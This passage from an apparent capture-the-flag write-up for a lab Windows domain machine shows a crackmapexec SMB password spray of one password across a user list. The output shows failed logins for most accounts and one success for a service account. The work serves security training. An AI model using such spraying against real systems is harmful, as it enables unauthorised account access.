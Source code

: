 At this point, I figured I might as well try logging in as each user. On Windows, the most low-privileged way to login as a user is via SMB:

```
$ crackmapexec smb 10.10.10.161 -u users.txt -p s3rvice
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:HTB) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] HTB\Administrator:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\Guest:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\krbtgt:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\DefaultAccount:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\$331000-VK4ADACQNUCA:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_2c8eef0a09b545acb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_ca8c2ed5bdab4dc9b:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_75a538d3025e4db9a:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_681f53d4942840e18:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_1b41c9286325456bb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_9b69f1b9d2cc45549:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_7c96b981967141ebb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_c75ee099d0a64c91b:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_1ffab36a2f5f479cb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxc3d7722:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxfc9daad:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxc0a90c9:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox670628e:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox968e74d:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox6ded678:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox83d6781:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxfd87238:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxb01ac64:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox7108a4e:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox0659cc1:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\sebastien:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\lucinda:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [+] HTB\svc-alfresco:s3rvice
```
